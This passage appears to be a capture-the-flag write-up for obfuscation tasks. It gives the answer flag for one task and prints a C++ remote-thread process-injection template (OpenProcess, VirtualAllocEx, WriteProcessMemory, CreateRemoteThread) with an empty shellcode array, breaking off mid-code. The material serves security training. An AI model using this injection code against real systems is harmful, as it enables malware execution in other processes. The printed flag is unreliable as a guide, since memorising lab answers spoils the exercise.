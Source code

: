 ## TASK 7 : Arbitrary Control Flow Patterns
### What flag is found after properly reversing the provided snippet?
After doing some iteration to understand the logic flow, we can add the code snippet in a python script and run it :

```console
C:\Users\test\Downloads>python3 challenge2.py
T
H
M
{
D
3
c
o
d
3
d
!
!
!
}
```
{: .nolineno }

Answer : THM{D3cod3d!!!}

## TASK 8 : Protecting and Stripping Identifiable Information
### What flag is found after uploading a properly obfuscated snippet? 
First, recreate the challenge-8.cpp file :

```cpp
root@ip-10-10-107-112:~/Desktop# cat challenge-8.cpp 
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;
```